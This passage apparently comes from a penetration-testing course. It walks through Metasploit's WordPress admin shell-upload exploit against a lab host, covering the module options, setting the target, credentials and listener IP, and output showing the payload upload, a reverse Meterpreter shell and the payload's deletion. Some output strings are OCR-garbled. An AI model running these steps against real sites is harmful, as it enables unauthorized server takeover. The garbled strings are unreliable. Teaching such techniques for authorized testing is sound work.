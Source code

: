 #### Module Options

Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

```shell
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

## Exploitation

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

```shell
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```
